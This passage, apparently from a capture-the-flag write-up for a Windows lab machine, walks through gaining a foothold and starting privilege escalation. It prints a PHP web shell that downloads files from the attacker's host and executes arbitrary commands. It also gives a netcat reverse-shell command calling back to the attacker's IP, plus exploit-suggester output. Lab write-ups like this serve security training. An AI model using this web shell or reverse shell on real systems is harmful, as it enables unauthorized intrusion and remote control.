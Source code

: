 Run the *systeminfo* command.

![Untitled](/medias/images/bastard/Untitled%2010.png)

It’s a 64-bit operating system. Download the 64-bit executable of netcat from [here](https://eternallybored.org/misc/netcat/). Start up a python server.

create one content again for uploading file

```php
<?php 
if (isset($_REQUEST['fupload'])) {
  file_put_contents($_REQUEST['fupload'], file_get_contents("http://10.10.14.50/" . $_REQUEST['fupload']));
};
if (isset($_REQUEST['fexec'])) {
  echo "<pre>" . shell_exec($_REQUEST['fexec']) . "</pre>";
}
?>
```

Upload it using the *fupload* parameter.

```php
http://10.129.253.176/node/3/?fupload=nc64.exe
```

Then set up a listener on the attack machine.

```php
nc -lvnp 4242
```

```bash
http://<TargetIP>/node/3/?fupload=nc64.exe 10.10.14.50 4242 -e cmd.exe
```

We get a shell!

![Untitled](/medias/images/bastard/Untitled%2011.png)

Grab the *user.txt* flag.

![Untitled](/medias/images/bastard/Untitled%2012.png)

Now we need to escalate privileges.

## Privilege Escalation

We know from the output of the *systeminfo* command the OS name and version.

```bash
OS Name:                Microsoft Windows Server 2008 R2 Datacenter 
OS Version:             6.1.7600 N/A Build 7600
```

Grab all systeminfo to sysinfo.txt

```bash
┌──(kali㉿kali)-[~/…/Machine/Windows/Medium/Bastard]
└─$ python2 ~/Documents/Tools/Windows-Exploit-Suggester/windows-exploit-suggester.py --database 2021-11-07-mssb.xls --systeminfo sysinfo.txt 
[*] initiating winsploit version 3.3...
[*] database file detected as xls or xlsx based on extension
[*] attempting to read from the systeminfo input file
[+] systeminfo input file read successfully (utf-8)
[*] querying database file for potential vulnerabilities
[*] comparing the 0 hotfix(es) against the 197 potential bulletins(s) with a database of 137 known exploits
[*] there are now 197 remaining vulns
[+] [E] exploitdb PoC, [M] Metasploit module, [*] missing bulletin
```